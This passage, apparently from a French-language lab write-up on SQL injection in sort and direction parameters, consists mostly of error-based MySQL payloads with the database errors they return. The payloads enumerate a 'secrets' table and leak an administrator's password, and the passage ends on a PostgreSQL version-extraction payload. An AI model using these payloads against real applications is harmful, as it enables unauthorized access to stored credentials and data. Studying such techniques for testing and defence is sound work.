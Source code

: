 ```sql
lastname OR (SELECT 1 FROM(SELECT COUNT(*),CONCAT(CHAR(126),(SELECT CAST(column_name AS NCHAR) FROM INFORMATION_SCHEMA.COLUMNS WHERE table_schema = 'sql_injection_in_pagination_clauses_database' AND table_name = 'secrets' LIMIT 1,1),CHAR(126),0x3a,floor(rand(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)
```

```sql
SQLSTATE[23000]: Integrity constraint violation: 1062 Duplicate entry '~username~:1' for key 'group_key'
```

```sql
lastname OR (SELECT 1 FROM(SELECT COUNT(*),CONCAT(CHAR(126),(SELECT CAST(column_name AS NCHAR) FROM INFORMATION_SCHEMA.COLUMNS WHERE table_schema = 'sql_injection_in_pagination_clauses_database' AND table_name = 'secrets' LIMIT 2,1),CHAR(126),0x3a,floor(rand(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)
```

```sql
SQLSTATE[23000]: Integrity constraint violation: 1062 Duplicate entry '~secret~:1' for key 'group_key'
```

Récupération du secret de l'administrateur :&#x20;

```sql
lastname OR (SELECT 1 FROM(SELECT COUNT(*),CONCAT(CHAR(126),(SELECT MID(CAST(CONCAT(id, ' ',username, ' ', secret) AS NCHAR),1,60) FROM sql_injection_in_pagination_clauses_database.secrets ORDER BY id LIMIT 0,1),CHAR(126),0x3a,floor(rand(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)
```

```sql
SQLSTATE[23000]: Integrity constraint violation: 1062 Duplicate entry '~1 admin Mon mot de passe est passw0rd~:1' for key 'group_key'
```

_Exploitation du paramètre "direction"_

L'exploitation du paramètre "direction" est très similaire à celle du paramètre "sort". Pour cette raison, seule la récupération du secret de l'administrateur sera illustrée :&#x20;

```sql
ASC,(SELECT 1 FROM(SELECT COUNT(*),CONCAT(CHAR(126),(SELECT MID(CAST(CONCAT(id, ' ',username, ' ', secret) AS NCHAR),1,60) FROM sql_injection_in_pagination_clauses_database.secrets ORDER BY id LIMIT 0,1),CHAR(126),0x3a,floor(rand(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)
```

```sql
SQLSTATE[23000]: Integrity constraint violation: 1062 Duplicate entry '~1 admin Mon mot de passe est passw0rd~:1' for key 'group_key'
```

#### PostgreSQL

_Exploitation du paramètre "sort"_

Récupération de la version de PostgreSQL :&#x20;

```sql
(CAST((SELECT VERSION()) AS NUMERIC))
```

